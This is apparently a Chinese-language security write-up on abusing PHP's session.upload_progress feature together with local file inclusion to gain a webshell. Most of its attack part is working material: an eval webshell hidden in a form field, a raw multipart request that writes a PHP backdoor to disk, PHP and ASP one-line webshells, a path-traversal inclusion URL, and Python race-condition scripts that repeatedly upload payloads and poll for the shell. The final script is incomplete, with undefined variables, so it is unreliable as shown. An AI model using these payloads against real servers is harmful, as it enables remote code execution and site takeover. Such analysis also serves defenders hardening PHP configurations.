


# PHP打开Session_upload时的利用探讨


## 0x01 介绍

PHP 允许客户端在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时客户端可以发送一个POST请求到终端（例如通过XHR）来检查这个进度状态。

session.upload_progress.enabled这个参数在php.ini 默认开启



当session.upload_progress.enabled开启时（只要不是Off，被注释了也会是当成On来看待），会在上传过程中生成上传进度文件，存储路径可以在phpinfo获取到，比如：

```
/var/lib/php5/sess_{your_php_session_id}
```


当一个上传在处理中，同时POST一个与INI中设置的[session.upload_progress.name](http://php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)同名变量时，上传进度可以在[$_SESSION](http://php.net/manual/zh/reserved.variables.session.php)中获得。 当PHP检测到这种POST请求时，它会在[$_SESSION](http://php.net/manual/zh/reserved.variables.session.php)中添加一组数据, 索引是[session.upload_progress.prefix](http://php.net/manual/zh/session.configuration.php#ini.session.upload-progress.prefix) 与 [session.upload_progress.name](http://php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)连接在一起的值。




举个例子：

一个上传进度数组的结构的例子

```
<form action="upload.php" method="POST" enctype="multipart/form-data">
     <input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="123" />
     <input type="file" name="file1" />
     <input type="file" name="file2" />
     <input type="submit" />
</form>
```

在session中存放的数据看上去是这样子的：

```
<?php
$_SESSION["upload_progress_123"] = array(
 "start_time" => 1234567890,   // The request time
 "content_length" => 57343257, // POST content length
 "bytes_processed" => 453489,  // Amount of bytes received and processed
 "done" => false,              // true when the POST handler has finished, successfully or not
 "files" => array(
  0 => array(
   "field_name" => "file1",       // Name of the <input/> field
   // The following 3 elements equals those in $_FILES
   "name" => "foo.avi",
   "tmp_name" => "/tmp/phpxxxxxx",
   "error" => 0,
   "done" => true,                // True when the POST handler has finished handling this file
   "start_time" => 1234567890,    // When this file has started to be processed
   "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
  // An other file, not finished uploading, in the same request
  1 => array(
   "field_name" => "file2",
   "name" => "bar.avi",
   "tmp_name" => NULL,
   "error" => 0,
   "done" => false,
   "start_time" => 1234567899,
   "bytes_processed" => 54554,
  ),
 )
);
```

session中存储上传进度的键值是：

```
ini_get('session.upload_progress.prefix').$_POST[ini_get['session.upload_progress.name']]；
```

其中`$_POST[ini_get['session.upload_progress.name']]；`是一个我们可控的值，如果把它控制成一个shell的内容，然后包含session就可以getshell了。

```
<input type="hidden" name="<?php echo ini_get("session.upload_progress.name"); ?>" value="<?php eval($_GET[1]); ?>" />
```

如果`session.upload_progress.cleanup=On`开启，则POST的内容一旦被读取，session的内容就会被清空，所以为了在清空之前能包含到有我们payload的session，还需要用条件竞争，或者上传大文件？


如果你构造一个这样的报文，并且不断的向服务端发送

```
POST / HTTP/1.1
Host: 123.45.56.78
Proxy-Connection: keep-alive
Content-Length: 648
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2rwkUEtFdqhGMHqV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5uu8r952rejihbg033m5mckb17

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?=`echo '<?php eval($_REQUEST[bertram])?>'>bertram.php`?>
------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file2"; filename="1.php"
Content-Type: text/php

<?php eval($_POST[1]);?>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file1"; filename="2.asp"
Content-Type: application/octet-stream

< %eval request("a")%>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary2rwkUEtFdqhGMHqV--
```

就会在session的存储路径下不断刷新生成包含恶意php代码的文件，然后通过LFI来包含这个文件

```
include.php?path=../../../../../../../var/lib/php5/sess_xxxxxxxxxxxxxxxxxxxxxxxxxx
```

即可达到getshell的目的。

exp（by wonderkun）

```
#!coding:utf-8
 
import requests
import time
import threading
 
 
host = 'http://your-ip:8088/'
PHPSESSID = 'vrhtvjd4j1sd88onr92fm9t2gt'
 
def creatSession():
    while True:
        files = {
        "upload" : ("tmp.jpg", open("/etc/passwd", "rb"))
        }
        data = {"PHP_SESSION_UPLOAD_PROGRESS" : "<?php echo md5('1');?>" }
        headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
        r = requests.post(host,files = files,headers = headers,data=data)
 
fileName = "/var/lib/php/sessions/sess_"+PHPSESSID
 
if __name__ == '__main__':
 
    url = "{}/index.php?file={}".format(host,fileName)
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    t = threading.Thread(target=creatSession,args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "c4ca4238a0b923820dcc509a6f75849b" in res.content:
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```


## 探讨问题

### 问题一：

代码里没有 session_start() ,如何创建session文件呢。

如果 session.auto_start=On ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get(“session.upload_progress.prefix”)+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。


### 问题二：

默认配置 session.upload_progress.cleanup = on 导致文件上传后，session文件内容立即清空。


这时候需要利用竞争，在session文件内容清空前进行包含利用。


上传脚本：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2019-07-26 21:31:53


import requests
import time
s = requests.session()
url = 'http://127.0.0.1/SessionUpload/upload.php'
phpsessid = 'tf9qmku8pjvsaobnukees5gu93'
while 1:
	data={
	"PHP_SESSION_UPLOAD_PROGRESS":(None,'<?php file_put_contents("./../www/shell.php","<?php @eval($_GET[a]);?>") ?>')
	}

	files = {
		
		"demo":("test.jpg","<?php eval($_POST[1]);?>","image/jpeg"),
		"submit":(None,"submit")
	}
	cookies={'PHPSESSID':phpsessid}
	r = s.post(url,files=files,data=data,cookies=cookies)
print r.text
```


包含脚本

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2019-07-26 21:31:53


import requests
import time
session=''
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
        else:
            print("retry")
```

